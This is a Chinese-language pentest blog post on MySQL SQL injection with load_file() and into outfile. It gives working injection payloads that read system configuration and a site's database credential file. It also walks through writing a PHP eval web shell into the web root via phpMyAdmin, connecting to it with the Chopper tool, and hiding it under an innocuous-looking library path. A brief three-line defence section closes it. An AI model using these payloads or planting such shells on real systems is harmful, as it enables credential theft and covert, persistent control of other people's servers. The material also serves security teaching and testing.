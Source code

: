 +++
date = "2016-06-20T08:10:27+08:00"
description = ""
draft = false
tags = ["injection"]
title = "SQL注入之load_file和into outfile(MySQL)"
topics = ["Pentest"]

+++
<!--
 * @Author: reber
 * @Mail: reber0ask@qq.com
 * @Date: 2019-04-10 10:45:00
 * @LastEditTime: 2019-08-15 15:19:43
 -->

### 0x00 load_file()
* 条件:

```
1. 要有file_priv权限
2. 知道文件绝对路径
3. 能使用union
4. 对web目录有读权限  
注：若过滤了单引号，则可以将函数中的字符进行hex编码
```

* 一般步骤
    * 读/etc/init.d下的东西，这里有配置文件路径
    ```
    ?id=1' union select 1,2,load_file('/etc/init.d/httpd')
    ```

    * 得到web安装路径  
    ```
    ?id=1' union select 1,2,load_file('/etc/apache/conf/httpd.conf')
    ```

    * 读取密码文件
    ```  
    ?id=1' union select 1,2,load_file('/site/xxx.com/conf/conn.inc.php')
    ```

### 0x01 into outfile
* 条件：

```
1. 要有file_priv权限  
2. 知道网站绝对路径  
3. 要能用union  
4. 对web目录有写权限  
5. 没有过滤单引号
```

* 一般方法  
当知道路径时，可以直接用

```id=1 union select "<? phpinfo();>" into outfile("C:/phpStudy/WWW/a.php")```

或者

```id=1 into outfile 'C:/phpStudy/WWW/a.php' fields terminated by '<? phpinfo();>';```

* 其他方法 
    * 登陆phpMyAdmin  
    ```
    use test;  选择数据库为test
    create table aaa(bbb varchar(64));   在数据库中创建一个表aaa
    insert into aaa values("<?php @eval($_POST['c']);?>"); --在aaa中插入一条数据<?php @eval($_POST['c']);?>
    select * from aaa into outfile 'C:/phpStudy/WWW/a.php'; --将aaa中的数据导出到文件a.php
    ```

    * localhost:80/a.php能访问  
    ```
    drop aaa; --删除建立的表
    ```

    * 然后菜刀连接  
    ```ini
    菜刀连接http://www.aa.com/a.php，然后更改shell的名字并将shell放在较隐蔽的地方，比如C:\phpStudy\WWW\phpMyAdmin\setup\lib\common.php
    ```

### 0x02 防御
* 数据库连接账号不要用root权限
* php关闭报错模式
* mysql账户没有权限向网站目录写文件